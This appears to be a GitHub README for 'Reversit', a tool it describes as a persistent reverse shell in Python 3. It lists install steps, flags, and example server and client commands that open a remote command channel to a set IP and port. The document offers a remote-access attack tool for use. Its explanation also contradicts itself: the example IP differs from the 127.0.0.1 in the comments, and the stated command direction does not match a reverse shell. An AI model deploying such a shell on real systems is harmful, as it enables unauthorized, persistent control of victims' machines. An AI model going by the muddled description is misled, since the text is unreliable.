 # ![Reversit](/img/Reversit.png)
## Persistent Reverse Shell Written in Python 3
## 🔧 Install
### macOS & Linux
 1. Clone the repository from github: `git clone https://github.com/Brandonli-13/Reversit.git`
 2. Change to Reversit directory: `cd Reversit/`
 3. Make `install` executable: `chmod +x ./install`
 4. Run `./install`: `./install`

## 🔨 Usage
### Flags
 `-h`, `--help`: Display help message
 `-a`, `--address`: Set IP address to connect to (client) / IP address to listen for a connection on (server)<br/>
 `-p`, `--port`: Set port number to connect to (client) / port number to listen for a connection on (server)<br/>
 `-b`, `--buffer`: Set buffer size, default: 131072 (bytes)<br/>
 `-s`, `--separator`: Set separator between type of request and data, default: \<separator\><br/>
 `-l`, `--listen`: Listen for incoming connections<br/>

### Example
 Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l`
 Client: `reversit -a 10.123.10.55 -p 7258 -b -s`

## ⚙️ How Reversit Works
1. Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l` <-- Starts listening on 127.0.0.1:7258
2. Client: `reversit -a 10.123.10.55 -p 7258 -b -s` <-- Connects to server on 127.0.0.1:7258
3. Client: `ls` <-- Sends `command<separator>ls` to server
4. Server: Recognizes `command` before separator and executes command
5. Server: Sends command output (stdout) to client
6. Client: Displays output
